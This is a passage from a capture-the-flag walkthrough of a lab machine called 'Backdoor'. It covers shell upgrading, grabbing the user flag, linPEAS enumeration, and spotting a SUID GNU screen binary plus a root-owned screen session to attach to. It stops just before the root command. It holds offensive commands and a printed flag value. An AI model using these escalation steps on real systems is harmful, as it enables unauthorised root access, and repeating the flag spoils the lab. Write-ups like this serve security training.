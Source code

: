 And upgrading my shell to make things a bit easier to use:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z to background our shell
stty raw -echo; fg
export TERM=xterm-256color

user@Backdoor:/home/user$
```

I then grab the **user.txt** flag:

`cat user.txt`

```
b6251f22124d32c64c1d0d21815dcfce
```

<br>

## System Enumeration

I upload **linPEAS** onto the system via a simple python http server and run it.

Immediately linPEAS shows us that it's vulnerable to **pwnkit** but given that's probably not the intended escalation path I'll skip that for now.

The other interesting thing I notice is that the **screen** program has a **SUID** bit set, and that isn't normal.

```
-rwsr-xr-x 1 root root 464K Feb 23  2021 /usr/bin/screen  --->  GNU_Screen_4.5.0
```

It also shows a running screen session started by root, so we should be able to attach to that.

```
root         828  0.0  0.0   2608  1756 ?        Ss   13:23   0:06      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
```

From the **screen** man page:

```
       -x   Attach to a not detached screen  session.  (Multi  display  mode).
            Screen  refuses  to attach from within itself.  But when cascading
            multiple screens, loops are not detected; take care.
```

<br>

## Root

Now that we know there's an already running screen session started by root, and that the -x option will attach to an already running session, let's connect over to it and escalate our privileges.

Running the following:
